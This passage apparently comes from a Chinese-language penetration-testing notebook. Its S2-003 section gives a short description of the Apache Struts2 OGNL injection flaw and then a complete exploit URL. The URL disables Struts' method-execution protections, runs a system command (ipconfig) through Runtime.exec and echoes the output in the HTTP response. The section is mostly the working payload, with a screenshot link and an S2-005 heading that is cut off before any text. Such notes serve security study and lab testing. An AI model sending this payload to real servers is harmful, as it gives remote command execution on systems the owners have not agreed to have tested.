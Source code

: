 ### 01-s2-003漏洞

XWork ParameterInterceptors旁路允许执行 OGNL 语句， OGNL 除其他功能外，还提供了广泛的表达式评估功能。该漏洞允许恶意用户绕过ParametersInterceptor 内置的【＃】使用保护，从而能够操纵服务器端上下文对象 。

```
http://127.0.0.1:8080/struts2-showcase-2.0.1/showcase.action?('\u0023context[ \'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

![s2-003](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/s2-003.png)

### 02-s2-005漏洞
